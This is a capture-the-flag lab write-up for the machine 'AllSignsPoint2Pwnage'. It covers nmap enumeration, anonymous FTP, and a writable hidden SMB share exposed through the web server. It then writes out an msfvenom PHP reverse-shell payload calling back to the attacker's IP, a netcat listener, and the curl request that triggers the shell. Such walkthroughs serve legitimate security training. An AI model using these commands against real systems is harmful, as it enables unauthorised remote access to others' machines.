 # AllSignsPoint2Pwnage (WIP)

## Nmap

```
sudo nmap 10.10.54.102 -p- -sS -sV -Pn

Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.11)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.11)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5040/tcp  open  unknown
5900/tcp  open  vnc           VNC (protocol 3.8)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

First up checking FTP shows we can login with anonymous login. From here listing the contents only shows notice.txt.

![](<../../.gitbook/assets/image (1322).png>)

Viewing the contents we become aware of a hidden SMB share called 'images'. The notice also implies uploading is possible on the share.

![](<../../.gitbook/assets/image (1323) (1).png>)

Checking for shares with smbclient.

```
smbclient -U '' -L \\\\10.10.54.102\\
```

![](<../../.gitbook/assets/image (1324).png>)

We can then connect to the images$ share. List the contents and confirmd file upload with the `put` command using test.txt

![](<../../.gitbook/assets/image (1325).png>)

Browsing to port 80 to check out the webserver we are presented with a slideshow. Using the contextual menu to save the images shows us the name of the image which matches that in the SMB share.

![](<../../.gitbook/assets/image (1326).png>)

We can test if we can read the contents of test.txt to confirm we can execute uploaded files. We can try the /images/ directory as we known the share exists.

```
curl http://10.10.54.102/images/test.txt 
```

![](<../../.gitbook/assets/image (1327).png>)

Knowing this works we can start to work towards getting a reverse shell. Checking information regarding the web server using Nikto shows it is powered by PHP.

![](<../../.gitbook/assets/image (1328).png>)

Ideally we should create a PHP reverse shell and upload it to the SMB share. We can achieve this with msfvenom as shown below.

```
msfvenom -p php/reverse_php LHOST=10.14.3.108 LPORT=80 -f raw > phpreverseshell.php
```

Then upload the shell to the SMB share.

![](<../../.gitbook/assets/image (1329).png>)

Open a `netcat` listener to the port specified in the payload.

```
sudo nc -lvp 80
```

Then execute the shell with curl.

```
curl http://10.10.54.102/images/phpreverseshell.php
```

Which connects our listener.

![](<../../.gitbook/assets/image (1330).png>)

